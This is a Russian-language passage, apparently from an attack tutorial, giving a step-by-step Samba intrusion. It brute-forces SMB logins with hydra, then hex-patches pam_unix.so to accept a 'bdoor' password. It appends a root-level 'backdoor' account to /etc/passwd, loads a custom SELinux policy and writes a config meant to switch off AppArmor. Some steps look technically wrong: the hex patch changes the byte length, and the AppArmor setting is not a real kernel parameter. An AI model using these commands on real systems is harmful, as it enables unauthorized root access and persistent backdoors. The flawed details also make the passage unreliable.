 ### Пример 2: Продвинутая атака на Samba с эскалацией

**Шаг 1: Получение и использование учетных данных**
```bash
# Брутфорс учетных данных Samba
hydra -L users.txt -P passwords.txt smb://192.168.1.100

# Монтирование с кэшированием
sudo mount -t cifs -o credentials=~/.smbcreds,cache=strict //192.168.1.100/backup /mnt/smb_backup

# Анализ прав доступа
smbcacls -N //192.168.1.100/backup / -U backup_user
```

**Пояснения**:
- Автоматизация подбора учетных данных
- Кэширование для повышения производительности
- Проверка расширенных ACL

**Шаг 2: Установка постоянного доступа**
```bash
# Модификация PAM-модуля
cp /mnt/smb_backup/lib/x86_64-linux-gnu/security/pam_unix.so pam_unix.so.bak
hexedit /mnt/smb_backup/lib/x86_64-linux-gnu/security/pam_unix.so

# Поиск и замена:
# Original: 3D 75 6E 69 78 00  ("=unix")
# Replace:  3D 62 64 6F 6F 72 00 ("=bdoor")

# Создание пользователя с бэкдором
echo 'backdoor:$y$j9T$8x4V7y2G$XvZW1kJCxJRTkqL4aFvT90:0:0::/root:/bin/bash' >> /mnt/smb_backup/etc/passwd
```

**Пояснения**:
- Модификация PAM для принятия специального пароля "bdoor"
- Создание пользователя с UID=0 и специальным паролем

**Шаг 3: Обход SELinux/AppArmor**
```bash
# Создание политики SELinux
cat > /mnt/smb_backup/tmp/mypolicy.te <<'EOT'
module mypolicy 1.0;
require { type unconfined_t; class process setexec; }
allow unconfined_t self:process setexec;
EOT

# Компиляция и загрузка
checkmodule -M -m -o mypolicy.mod mypolicy.te
semodule_package -o mypolicy.pp -m mypolicy.mod
semodule -i mypolicy.pp

# Отключение AppArmor
echo 'kernel.apparmor = 0' > /mnt/smb_backup/etc/sysctl.d/disable_apparmor.conf
```

